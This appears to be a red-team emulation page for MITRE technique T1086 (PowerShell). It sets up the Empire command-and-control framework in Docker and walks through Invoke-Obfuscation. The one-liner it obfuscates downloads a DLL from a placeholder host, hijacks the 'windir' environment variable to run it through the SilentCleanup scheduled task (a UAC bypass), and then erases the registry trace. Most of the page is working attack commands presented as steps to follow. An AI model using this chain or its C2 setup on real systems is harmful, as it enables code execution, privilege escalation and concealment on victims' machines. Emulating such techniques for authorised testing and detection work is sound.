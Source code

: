 # PowerShell

---
* **ID**: T1086
* **Source**: <https://attack.mitre.org/techniques/T1086/>
---

# Details

## Empire
* Install `Docker` on your C2 host
* Edit `~/.bashrc` to add the following aliases:
```
# Empire docker command
alias empire_start='docker exec -it $(docker run -d -p 80:80 empireproject/empire) python2.7 empire'
alias empire_stop='docker kill $(docker ps | grep empire | cut -d " " -f 1)'
```
* Run the command below to make the aliases take effect:
```
source ~/.bashrc
```
* Execute the following commands to start/stop your `Empire` containers:
  * Start `Empire` container: `empire_start`
  * Stop `Empire` container: `empire_stop`

## Invoke-Obfuscation
* Install [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
* Import module and run it to obfuscate the PowerShell script block as following:
```
Import-Module ./Invoke-Obfuscation.psd1
Invoke-Obfuscation
set scriptblock powershell Invoke-WebRequest -Uri "http://example.com/example.dll" -OutFile %ALLUSERSPROFILE%\example.dll;Set-ItemProperty -Path "HKCU:\Environment" -Name 'windir' -Value 'rundll32 %ALLUSERSPROFILE%\example.dll,DllMain ' -Force;schtasks.exe /Run /TN \Microsoft\Windows\DiskCleanup\SilentCleanup /I;Remove-ItemProperty -Path "HKCU:\Environment" -Name 'windir' -Force
Encoding\5
Compress\1
Launcher\PS\7
clip
```

## PowerCat
* See [Exfiltration Over Command and Control Channel](https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1041/T1041.md)

# References

* <http://avfisher.win/archives/100>
* <https://github.com/danielbohannon/Invoke-Obfuscation>
* <https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1041/T1041.md>
